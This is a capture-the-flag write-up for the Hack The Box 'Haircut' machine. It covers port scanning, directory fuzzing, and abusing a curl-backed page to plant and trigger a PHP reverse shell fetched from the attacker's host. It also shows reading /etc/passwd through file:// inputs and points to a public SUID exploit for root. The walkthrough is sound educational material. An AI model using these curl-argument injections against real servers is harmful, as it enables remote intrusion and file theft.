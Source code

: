 # Index
1. [Enumeration](#enumeration)
	<br>
	1.1 [Nmap](#nmap)
	</br>
	1.2	[Website](#website)
	
2. [Alternative way](#Alternative-way-to-user-flag)	
3. [Privesc](#privesc)

#### Tags
<details markdown='1'>
<summary>Click to get a hint</summary> 
<ul>
	<li>Abusing curl</li>
	<li>SUID privilege escalation</li>
</ul>
</details>

### Enumeration 
**IP Address** 10.10.10.24

#### Nmap
As usual, the initial step at the beginning is running an Nmap. After running one simple command to check all the ports (option -p- of *nmap*), only ports 22 and 80 are open. Then, the next step I usually do, is running a more detailed scan, obtaining the following results:

```shell
sudo nmap -sC -sV -O -p 22,80 10.10.10.24
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-01 10:55 EDT
Nmap scan report for 10.10.10.24
Host is up (0.061s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser 
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.31 seconds
```


#### Website
As it can bee observed, we only have webite without even *robots.txt* file.
While navigatin through the website, it seems quite empty, as it only contains one picture:

![Image 1](pictures/haircut-01.png)

After reviewing the source code, nothing is discovered, so it's time for some *fuzzing*.

I am very used to *gobuster* and the syntas I use is the following:
![Image 1](pictures/haircut-02.png)

Thanks to *gobuster*, a resource named *exposed.php* is found. It looks like the following image:
![Image 1](pictures/haircut-03.png)

It seems like is using something like curl to ask for a web resource. The first thing I thought was *ssrf*, but I wasn´t able to obtain nothing from the *uploads* directory. 
The following try, was leaving empty the input field and clicking "go". After this, the message obtained was this one:
![Image 1](pictures/haircut-04.png)

It is obviously using curl. If you try to only write "-- help" and click *go* after that, you will receive the *help* menu of curl. 
So, to summarize, we have a webpage running at a linux server that performs curl request. My first though here is to concatenate commands (in linux it can be done with some metacharacters such as &,| or ;).
Anyways, if you try to use any of these characters, the *exposed.php* will block your request, as the input is sanitized in some way:
![Image 1](pictures/haircut-05.png)

After thinking about some options, I figured the following way out to read the some output from commands:
![Image 1](pictures/haircut-06.png)

As it can be observed, the '$' character was not limitated, so I created a server at my machine and made some requests in order to obtain, at least, the path.
This leaded me to nowhere, but I was useful in the next step.

Once I was here, I recalled that I was able to use all the options that the curl command has. So what about using the output argument to save a file (a shell, maybe) from my machine into the *Haircut* server?
With the input:
```shell
http://10.10.16.9:8000/php-reverse-shell.php -o php-reverse-shell.php
```
it should be possible to save the file in the server.
However, after doing this, I found that the user running curl had no permissions to write in the actual folder:
![Image 1](pictures/haircut-07.png)

I was thinking to write the file in the */tmp* directory, but I had no way to request this file after it. Reviewing my notes, I saw the /uploads/ directory. And, as I had the path in which the command is running, I only had to add the directory:

```shell
http://10.10.16.9:8000/php-reverse-shell.php --output //var/www/html/uploads/php-reverse-shell.php
```

This time it was possible to write the file!
Now the only thing left to obtain a shell is establishing the listener in my machine and making a request from *exposed.php* to:
```
http://localhost/uploads/php-reverse-shell.php 
```

After making this previous request, we have a shell and the user flag:
![Image 1](pictures/haircut-08.png)


### Alternative way to user flag

Feel free if you want to skip directly into the [Privesc](#privesc) section. 
While I was reading the curl manual, I found a way to read files with curl. In this machine, this way allows us to read the */etc/passwd* to discover the user directory, and then the user flag.
The input that should be submited in order to get the files is:

```shell
file:///etc/passwd
file:///home/maria/user.txt
```

![Image 1](pictures/haircut-alternative.png)

### Privesc

Right now is time to escalate privileges. As I'have mentioned in other writeups, I usually run some scripts when I have the shell:
- Linpeas/LinEnum
- suid3num
- pspy (just in case I find nothing with the others)

In order to get this files into the machine, I started a server in my kali machine (with python3 as before) and I got them with running *wget* at the Haircut machine.

Both suid3num and Linpeas provides us with this interesting binary (this is the output from suid3num):

![Image 1](pictures/haircut-09.png)

Just googling this binary, we find an [exploit](https://www.exploit-db.com/exploits/41154):

![Image 1](pictures/haircut-10.png)

This scripts works creating two binary files, and abusing one of the libraries that the binary is using. I couldn´t make the script work by itself, however, I broke it into pieces and went manually step by step. 
I even found this [youtube](https://www.youtube.com/watch?v=RP4hAC96VxQ) guide step by step. 

Finally, after following this guide, we obtain a root shell:
![Image 1](pictures/haircut-11.png)

I really recommend watching the video from youtube if you don´t really understand the script, as it is pretty good explained.

And that's all folks, another machine completed. Please, feel free to [contact](https://twitter.com/sergioframi)  me if you want to ask or share anything about this machine. Thanks a lot! 